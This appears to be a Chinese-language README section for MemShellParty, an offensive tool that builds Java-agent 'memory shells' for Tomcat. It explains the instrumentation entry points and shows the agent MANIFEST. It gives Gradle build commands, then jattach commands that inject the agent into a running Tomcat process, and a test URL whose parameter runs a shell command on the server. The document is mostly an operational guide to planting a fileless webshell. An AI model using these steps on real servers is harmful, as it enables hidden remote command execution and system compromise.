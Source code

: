 ## Agent 内存马

### 实现原理

JDK1.5 提供了 JVMTI 接口供开发者扩展以查看 JVM 状态，或控制 JVM 代码执行。其中最重要的就是 `java.lang.instrument`，可以添加自定义的
Transformer，来进行字节码修改。具体细节可查看 [JVM 源码分析之 javaagent 原理完全解读](https://www.infoq.cn/article/javaagent-illustrated)。

JavaAgent 有两种入口：

1. 静态注入，MANIFEST 定义 Premain-Class 属性指定实现类，并且类中实现了
   `public static void premain(String args, Instrumentation inst)` 方法，在 Java 程序运行参数中添加
   `java -javaanget:/path/to/agent.jar -jar app.jar`，应用启动时，就会调用到 `premain` 方法执行字节码增强相关代码逻辑。
2. 动态注入，MANIFEST 定义 Agent-Class 属性指定实现类，并且类中实现了
   `public static void agentmain(String args, Instrumentation inst)` 方法，在 Java 程序运行过程中，通过 attach 机制进行
   attach 时，会调用到 `agentmain` 方法执行字节码增强相关代码逻辑。

当一个 jar 包中 MANIFEST 定义如下时：

```text
Premain-Class: com.reajason.javaweb.memshell.agent.CommandFilterChainTransformer
Agent-Class: com.reajason.javaweb.memshell.agent.CommandFilterChainTransformer
Can-Redefine-Classes: true
Can-Retransform-Classes: true
Can-Set-Native-Method-Prefix: true
```

那么这个 Java Agent 既支持静态注入，也支持动态注入。

### 实现方式

> 目前提供了 Tomcat 最简单的命令回显 Agent 内存马实现方式

1. 基于
   ASM，[CommandFilterChainTransformer.java](memshell-agent-asm/src/main/java/com/reajason/javaweb/memshell/agent/CommandFilterChainTransformer.java)
2. 基于
   Javassist，[CommandFilterChainTransformer.java](memshell-agent-javassist/src/main/java/com/reajason/javaweb/memshell/agent/CommandFilterChainTransformer.java)
3. 基于
   ByteBuddy，[CommandFilterChainTransformer.java](memshell-agent-bytebuddy/src/main/java/com/reajason/javaweb/memshell/agent/CommandFilterChainTransformer.java)

### 如何使用

可以直接 IDEA 中的 Gradle，里面双击 memshell-agent 下的 Tasks 中 build 下的 jar 进行构建。

```bash
## 进入项目根目录
cd MemShellParty

## MacOs or Linux
./gradlew :memshell-agent:jar

## Windows
gradlew.bat :memshell-agent:jar
```

构建结束，会在每个模块 build/libs/ 下生成 Jar 包，其中带 all 的为我们所需要用的包，例如：

- memshell-agent-asm/build/libs/memshell-agent-asm-1.0.0-all.jar
- memshell-agent-javassist/build/libs/memshell-agent-javassist-1.0.0-all.jar
- memshell-agent-bytebuddy/build/libs/memshell-agent-bytebuddy-1.0.0-all.jar

下载 [jattach](https://github.com/jattach/jattach/releases/latest) 攻击实施动态注入。

1. 启动你需要注入的 Tomcat
2. 执行命令 `/path/to/jattach pid load instrument false /path/to/agent.jar`，注意，所有路径都使用绝对路径，不要使用相对路径
3. 访问 `http://localhost:8080/app/?paramName=id` ，查看是否成功